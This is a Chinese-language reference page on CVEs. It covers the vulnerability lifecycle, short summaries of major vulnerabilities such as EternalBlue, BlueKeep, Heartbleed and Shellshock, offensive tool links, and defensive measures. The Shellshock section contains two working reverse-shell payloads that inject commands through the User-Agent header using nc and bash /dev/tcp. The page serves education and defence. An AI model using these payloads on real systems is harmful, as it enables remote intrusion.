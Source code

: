 # 通用漏洞与暴露 (CVE)

> CVE（通用漏洞与暴露）是分配给公开已知网络安全漏洞的唯一标识符。CVE 帮助标准化漏洞的命名和跟踪，使组织、安全专业人员和软件供应商更容易共享信息并管理与这些漏洞相关的风险。每个 CVE 条目都包含漏洞的简要描述、其潜在影响以及受影响软件或系统的详细信息。

## CVE 漏洞管理原理

CVE（Common Vulnerabilities and Exposures）系统是一个由 MITRE 公司维护的公开漏洞数据库，它为每个已知的网络安全漏洞分配一个唯一的标识符。了解 CVE 系统及其相关漏洞对于网络安全专业人员至关重要。

### 漏洞生命周期

1. **发现与报告**：
   - 安全研究人员或组织发现漏洞
   - 向供应商或 CERT 报告漏洞
   - 分配 CVE ID 进行跟踪

2. **评估与分类**：
   - 评估漏洞的严重性（CVSS 评分）
   - 确定受影响的系统和版本
   - 分类漏洞类型（如 RCE、XSS、SQLi 等）

3. **补丁开发**：
   - 供应商开发并测试安全补丁
   - 发布安全公告和补丁说明
   - 提供缓解措施（如适用）

4. **补丁部署**：
   - 组织评估和测试补丁
   - 制定部署计划
   - 在生产环境中部署补丁

### 漏洞利用趋势

- **远程代码执行 (RCE)**：允许攻击者在目标系统上执行任意代码
- **权限提升**：允许攻击者获得比预期更高的权限
- **信息泄露**：导致敏感信息暴露给未授权方
- **拒绝服务 (DoS)**：导致系统崩溃或变得不可用

### 漏洞管理最佳实践

- 定期扫描系统以识别已知漏洞
- 优先修复高风险漏洞
- 实施补丁管理流程
- 监控安全公告和威胁情报
- 维护最新的软件和依赖项

## 目录

- [工具](#工具)
- [过去15年的重大CVE漏洞](#过去15年的重大cve漏洞)
    - [CVE-2017-0144 - EternalBlue](#cve-2017-0144---eternalblue)
    - [CVE-2017-5638 - Apache Struts 2](#cve-2017-5638---apache-struts-2)
    - [CVE-2018-7600 - Drupalgeddon 2](#cve-2018-7600---drupalgeddon-2)
    - [CVE-2019-0708 - BlueKeep](#cve-2019-0708---bluekeep)
    - [CVE-2019-19781 - Citrix ADC Netscaler](#cve-2019-19781---citrix-adc-netscaler)
    - [CVE-2014-0160 - Heartbleed](#cve-2014-0160---heartbleed)
    - [CVE-2014-6271 - Shellshock](#cve-2014-6271---shellshock)
- [防御措施](#防御措施)
- [参考资料](#参考资料)

## 工具

* [Trickest CVE 仓库 - 自动收集的CVE和PoC](https://github.com/trickest/cve)
* [Nuclei 模板 - 社区策划的nuclei引擎模板，用于查找应用程序中的安全漏洞](https://github.com/projectdiscovery/nuclei-templates)
* [Metasploit 框架](https://github.com/rapid7/metasploit-framework)
* [CVE 详情 - 终极安全漏洞数据源](https://www.cvedetails.com)

## 过去15年的重大CVE漏洞

### CVE-2017-0144 - EternalBlue

EternalBlue 利用了微软服务器消息块(SMB)协议实现中的一个漏洞。该漏洞存在于多个版本的 Microsoft Windows 的 SMB 版本 1 (SMBv1) 服务器中，该服务器错误处理了来自远程攻击者的特制数据包，允许他们在目标计算机上执行任意代码。

受影响的系统：

* Windows Vista SP2
* Windows Server 2008 SP2 和 R2 SP1
* Windows 7 SP1
* Windows 8.1
* Windows Server 2012 Gold 和 R2
* Windows RT 8.1
* Windows 10 Gold、1511 和 1607
* Windows Server 2016

### CVE-2017-5638 - Apache Struts 2

2017年3月6日，Apache Struts 2 中一个新的远程代码执行(RCE)漏洞被公开。这个最近的漏洞 CVE-2017-5638 允许远程攻击者通过"Content-Type"头向Web应用程序注入操作系统命令。

### CVE-2018-7600 - Drupalgeddon 2

Drupal 7.x 和 8.x 的多个子系统中存在一个远程代码执行漏洞。这可能允许攻击者利用Drupal站点上的多个攻击向量，可能导致站点完全被攻陷。

### CVE-2019-0708 - BlueKeep

远程桌面服务（以前称为终端服务）中存在一个远程代码执行漏洞，当未经身份验证的攻击者使用RDP连接到目标系统并发送特制请求时。此漏洞是预认证的，不需要用户交互。成功利用此漏洞的攻击者可以在目标系统上执行任意代码。攻击者可以安装程序；查看、更改或删除数据；或创建具有完全用户权限的新账户。

### CVE-2019-19781 - Citrix ADC Netscaler

Citrix Application Delivery Controller (ADC)（以前称为 NetScaler ADC）和 Citrix Gateway（以前称为 NetScaler Gateway）中存在一个远程代码执行漏洞，如果被利用，可能允许未经身份验证的攻击者执行任意代码。

受影响的产品：

* Citrix ADC 和 Citrix Gateway 13.0 所有受支持版本
* Citrix ADC 和 NetScaler Gateway 12.1 所有受支持版本
* Citrix ADC 和 NetScaler Gateway 12.0 所有受支持版本
* Citrix ADC 和 NetScaler Gateway 11.1 所有受支持版本
* Citrix NetScaler ADC 和 NetScaler Gateway 10.5 所有受支持版本

### CVE-2014-0160 - Heartbleed

Heartbleed 漏洞是流行的 OpenSSL 加密软件库中的一个严重漏洞。这个弱点允许窃取在正常情况下受 SSL/TLS 加密保护的信息，这些加密用于保护互联网安全。SSL/TLS 为 Web、电子邮件、即时消息(IM) 和一些虚拟专用网络(VPN) 等应用程序提供互联网通信安全和隐私。

### CVE-2014-6271 - Shellshock

Shellshock，也称为 Bashdoor，是广泛使用的 Unix Bash shell 中的一个安全漏洞家族，其中第一个漏洞于 2014 年 9 月 24 日披露。许多面向互联网的服务（如某些 Web 服务器部署）使用 Bash 处理某些请求，这允许攻击者使易受攻击的 Bash 版本执行任意命令。这可能允许攻击者未经授权访问计算机系统。

```bash
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 10.0.0.2 4444 -e /bin/sh\r\n"
curl --silent -k -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.2/4444 0>&1" "https://10.0.0.1/cgi-bin/admin.cgi" 
```

## 防御措施

1. **漏洞管理**：
   - 建立和维护资产清单
   - 定期进行漏洞扫描和评估
   - 优先修复高风险漏洞
   - 实施补丁管理流程

2. **网络分段**：
   - 将关键系统与常规网络隔离
   - 实施适当的网络访问控制
   - 监控网络流量以检测异常活动

3. **安全配置**：
   - 禁用不必要的服务和功能
   - 实施最小权限原则
   - 定期审核系统配置

4. **安全意识培训**：
   - 教育员工识别社会工程攻击
   - 提供安全编码实践培训
   - 建立安全事件响应计划

5. **监控与响应**：
   - 实施入侵检测/防御系统
   - 定期审查日志和警报
   - 建立事件响应团队和流程

## 参考资料

* [Heartbleed - 官方网站](http://heartbleed.com)
* [Shellshock - 维基百科](https://zh.wikipedia.org/wiki/Shellshock)
* [Imperva Apache Struts 分析](https://www.imperva.com/blog/2017/03/cve-2017-5638-new-remote-code-execution-rce-vulnerability-in-apache-struts-2/)
* [EternalBlue - 维基百科](https://zh.wikipedia.org/wiki/EternalBlue)
* [BlueKeep - 微软](https://portal.msrc.microsoft.com/zh-CN/security-guidance/advisory/CVE-2019-0708)
* [CVE 官方网站](https://cve.mitre.org/)
* [国家漏洞数据库 (NVD)](https://nvd.nist.gov/)
* [OWASP 十大漏洞](https://owasp.org/www-project-top-ten/)
